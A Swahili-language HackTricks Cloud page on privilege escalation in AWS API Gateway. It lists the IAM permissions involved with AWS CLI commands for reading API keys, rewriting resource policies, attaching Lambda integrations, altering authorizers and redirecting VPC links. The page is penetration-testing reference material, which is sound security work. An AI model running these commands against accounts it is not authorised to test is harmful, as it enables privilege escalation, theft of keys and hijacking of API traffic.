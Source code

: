 # AWS - Ukarabati wa Mamlaka ya Apigateway

{% hint style="success" %}
Jifunze na zoezi la Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoezi la Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>unga mkono HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Kwa maelezo zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Kwa kibali hiki unaweza kuzalisha funguo za API za API zilizowekwa (kwa kanda).
```bash
aws --region <region> apigateway create-api-key
```
**Athari Inayowezekana:** Huwezi kufanya privesc kwa njia hii lakini unaweza kupata ufikiaji wa habari nyeti.

### `apigateway:GET`

Kwa kibali hiki unaweza kupata funguo za API zilizozalishwa za APIs zilizowekwa (kwa kila eneo).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Athari Inayowezekana:** Huwezi kufanya privesc kwa njia hii lakini unaweza kupata ufikiaji wa habari nyeti.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Kwa idhini hizi, niwezekanavyo kurekebisha sera ya rasilimali ya API ili kujipatia ufikiaji wa kuipiga simu na kutumia ufikiaji wa uwezo ambao gateway ya API inaweza kuwa nayo (kama kuita lambda inayoweza kudhuriwa).
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Matokeo Yanayowezekana:** Kwa kawaida, hutaweza kufanya privesc moja kwa moja kwa kutumia mbinu hii lakini unaweza kupata ufikivu wa taarifa nyeti.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

Mshambuliaji mwenye ruhusa za `apigateway:PutIntegration`, `apigateway:CreateDeployment`, na `iam:PassRole` anaweza **kuongeza ushirikishaji mpya kwenye API iliyopo ya API Gateway REST na kazi ya Lambda ambayo ina jukumu la IAM iliyowekwa**. Mshambuliaji kisha **anaweza kuzindua kazi ya Lambda kutekeleza nambari ya kupindukia na labda kupata ufikivu wa rasilimali zilizohusishwa na jukumu la IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Athari Inayowezekana**: Kupata ufikiaji wa rasilimali zinazohusiana na jukumu la IAM la Lambda function.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

Mshambuliaji mwenye ruhusa za `apigateway:UpdateAuthorizer` na `apigateway:CreateDeployment` anaweza **kurekebisha mwandishi wa API ya Gateway uliopo** ili kudukua vikaguzi vya usalama au kutekeleza nambari ya kupita wakati maombi ya API yanafanywa.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Athari Inayowezekana**: Kupitisha ukaguzi wa usalama, ufikiaji usioruhusiwa wa rasilimali za API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

Mshambuliaji mwenye ruhusa ya `apigateway:UpdateVpcLink` anaweza **kurekebisha Kiungo cha VPC kilichopo ili kuelekeza kwenye Balancer ya Mzigo wa Mtandao tofauti, hivyo kubadilisha mwelekeo wa trafiki ya API ya kibinafsi kuelekea rasilimali zisizoruhusiwa au zenye nia mbaya**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Athari Inayowezekana**: Upatikanaji usiohalali wa rasilimali za API za kibinafsi, udukuzi au kuvuruga trafiki ya API.
